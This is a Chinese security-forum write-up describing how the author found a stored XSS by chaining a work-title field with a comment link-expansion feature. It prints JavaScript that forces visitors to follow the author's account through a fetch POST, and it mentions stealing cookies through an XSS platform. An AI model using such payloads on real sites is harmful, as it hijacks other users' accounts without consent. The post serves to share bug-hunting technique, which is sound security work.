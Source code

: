 

# 记一次有趣的 XSS 漏洞挖掘 - 先知社区

记一次有趣的 XSS 漏洞挖掘

- - -

### 功能点一

首先这里的话是存在一个简单的功能点，就是可以发布自己的一个作品，这里挖掘的时候想法肯定就是插一些 xss 的 payload（因为我们就是挖掘 xss 嘛），所以的话就插了一些 payload 进行测试，意料之中，肯定是没有反应的。但是我们肯定是不能放弃的，因为在挖掘的时候很多漏洞可能是组合在一起产生的，所以我们可以多一些脑洞。  
[![](assets/1709022881-755fe984332edc83ce525df409a87ca2.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240226171833-033caf64-d488-1.jpg)  
这个 name 参数就是我们的作品名称。  
[![](assets/1709022881-0a35eb7f81dad0c479d73c43fe4b518f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172210-850b3e20-d488-1.png)  
发出来的效果就是这么一回事。  
[![](assets/1709022881-01ecc99ccbc8fdba2004f16b0dab1947.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172308-a776ed1a-d488-1.png)  
然后呢，这里没有发现漏洞，那么我们继续测试其他的功能点。

### 功能点二

这个功能点也是很常见的功能，就是评论。评论区一般都是 xss 的高发区也是重点防护区。当然我们也是可以进行一个简单的 payload 测试

[![](assets/1709022881-0d4aec3a9f2d7da208093d6d21f7f581.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172631-2045d8aa-d489-1.png)  
一样的没有任何反应，但是这里的话我在看别人的评论的时候就发现了一个好玩的事情，如果评论的时候，我们评论的内容是该网站的其他作品的链接，那么它会自动转换为该作品的名称，一个 a 标签（外站的链接不行）

[![](assets/1709022881-b34e1ab98549e3064daabf48ebb9755a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172929-8a63bdce-d489-1.png)  
那么这里就是有思路了，把这两个功能点结合一下或许就可以变成一个有趣的 xss 漏洞。把之前我们存在 xss payload 的作品链接在我们的作品底下进行评论

[![](assets/1709022881-7aa2fe1cebb44128f24c8d811d04f9b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226173126-d081eaf6-d489-1.png)

[![](assets/1709022881-aba33890b95f97b43ef318609fb3e9f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226173215-ed72daee-d489-1.png)  
好！符合预期，这里确实存在 xss 漏洞，那么我们如何把这个危害进行扩大呢，我们都知道 xss 主要是因为 js 的问题，而 js 是可以发起 http 请求的，那么这里我们就有一个思路了（当时也是看了大佬挖掘 b 站 xss 漏洞的启发），我们抓取 api，然后自己编写一段请求代码，只要别人访问我们的作品（或者我们在别人作品底下进行评论），都会触发这段 js 代码从而发起请求。借助一些 xss 在线平台，编写以下代码，通过 fetch 发起请求，让其他用户自动关注我的账号。

```plain
function getHeaders() {
      return {
        "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "accept-language": "zh-CN,zh;q=0.9",
        "cache-control": "max-age=0",
        "content-type": "application/x-www-form-urlencoded",
        "sec-ch-ua": "\"Not?A_Brand\";v=\"8\", \"Chromium\";v=\"108\", \"Google Chrome\";v=\"108\"",
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": "\"Windows\"",
        "sec-fetch-dest": "document",
        "sec-fetch-mode": "navigate",
        "sec-fetch-site": "same-site",
        "Content-Type": 'application/json'
      };
    }
    function apiGet() {
      return fetch("https://xxxxxxx/follow", {
        method: "POST",
        headers: getHeaders(),
        mode: "cors",
        body: JSON.stringify({
          "followed_user_id": xxxxxx,
          "state": 1
        })
      }).then(function () {
        console.log("关注成功");
      })
    }
    apiGet()
```

在其他作品底下进行评论  
[![](assets/1709022881-711e56d786790d218e748e9e461a32d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226173827-cb5a4630-d48a-1.png)  
抓包可以看到确实是已经发起请求了，那么坐等消息即可（狗头）  
[![](assets/1709022881-7d2162e93a03c7c5da230b8d7c81cbdd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226173926-ee20e390-d48a-1.png)  
可以的，百万关注不是梦啊，这里其实可以借助 xss 平台进行更多的操作，比如盗取 cookie...  
[![](assets/1709022881-5fde191234e9d79240a4be8979efa6d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226174103-2807ef68-d48b-1.png)

### 总结

在挖掘一些漏洞的时候我们的思路需要发散一些，碰到功能点我们可以去思考开发者开发这个功能是想实现什么东西，多个不同的功能点是不是组合在一些会产生一些特殊的化学反应。
